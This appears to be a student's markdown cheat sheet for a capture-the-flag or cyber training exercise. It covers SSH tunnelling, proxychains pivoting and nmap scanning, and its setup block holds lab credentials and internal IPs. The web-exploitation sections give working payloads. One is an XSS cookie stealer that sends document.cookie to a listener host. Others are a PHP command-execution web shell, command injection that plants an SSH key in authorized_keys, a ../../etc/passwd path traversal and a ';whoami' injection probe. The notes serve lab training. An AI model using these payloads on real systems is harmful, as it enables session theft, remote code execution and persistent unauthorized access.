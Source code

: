 #   SETUP
```
CTF Exploit Research HAS ONLY 1!!!!! ATTEMPT LEFT
https://sec.cybbh.io/public/security/latest/index.html
Stack Number	Username	  Password	        jump
2 	          ALFA-007-M 	SiatKd1eRB2Q4ns 	10.50.33.233 (only running ping from jump box)
http://10.50.20.103:8000/
Linux Ops 10.50.27.254               Windows Ops 10.50.31.208
```

#  NMAP
```
NMAP scripting engine location /usr/share/nmap/scripts
```
#  USAGE & EXAMPLES 
```
-nmap --script <filename>|<category>|<directory>
-nmap --script-help "ftp-* and discovery"
-nmap --script-args <args>
-nmap --script-args-file <filename>
-nmap --script-help <filename>|<category>|<directory>
-nmap --script-trace
```
#  Master Socket ssh to jump
```
ssh -MS /tmp/jump student@10.50.33.233
```
#  PingSweep
```
for i in {97..126}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
```
#  Set Up Dynamic Port forward 
```
-S for socket file
-O for forward options
-D9050 proxychains
requires a filler word to act as credentials (in this case its jump)
ssh -S /tmp/jump jump -O forward -D9050
```
#  Port Interro
```
proxychains nc <ip> <port>
```
#  Multiple port forward with Socket
```
ssh -S /tmp/jump jump -O forward -L1111:192.168.28.100:80 -L2222:192.168.28.100:2222 -L3333:192.168.28.111:80 -L5555:192.168.28.111:2222
```
#  SSH with Master Socket Tunnel
```
ssh -MS /tmp/t1 creds@127.0.0.1 -p 2222 
```
#  Assuming net net and new ports found
```
PingSweep
```
# port forward
```
ssh -S /tmp/t1 t1 -O forward -D9050 (previous dynamic port must be canceled ssh -S /tmp/jump jump -O cancel -D99050)
```
# nmap port scan
```
proxychains nmap <ip> (80 & 2222 found)
```
# port interro
```
proxychains nc <ip> <port>
```
# Port Forward
```
ssh -S /tmp/t1 t1 -O forward -L2323:ip:2222 -L4343:100.200.25.35:80
```
# Authenticate to new ssh with ssh
```
ssh -MS /tmp/t2 creds@127.0.0.1 -p 2323
```
# To get to fowarded web ports
```
On firefox type loopback followed by colon and fowarded port (127.0.0.1:port)
```
#  Proxychains with http script
```
proxychains nmap --script=http-enum.nse 192.168.28.100
ssh root@10.50.24.104 -D 9050

proxychains nmap -Pn -T5 -sT -p 80 --script http-enum.nse <IP>

proxychains nmap -Pn -T5 -sT -p 80 --script http-sql-injection.nse <IP>

proxychains nmap -Pn -T5 -sT -p 80 --script http-robots.txt.nse <IP>
```
#   Outcome
```
directories within website that can be further enumerated
```
#  cookie stealer
```
<script>document.location="http://10.50.27.254:8000/"+document.cookie;</script>
above script ran on vulnerable web page
python3 -m http.server
above ran on lin ops iot intercept traffic
```

#  Malicious file upload script
```
  <HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
```

#  upload copy of ssh rsa token
```
ssh-keygen  -t rsa -b 4096
cat rsa key
;mkdir /<homedir>/.ssh
; echo "<rsa key>" >> /<homedir>/.ssh/authorized_keys
ssh into web server
```
#  Server side dir traversal
```
Server-Side injection

Directory Traversal/Path Traversal


    Ability to read/execute outside web server’s directory

    Uses ../../ (relative paths) in manipulating a server-side file path


view_image.php?file=../../etc/passwd
```

































# Misc NOTES
```
test command inject ;whoami
when u see a .html try it

```
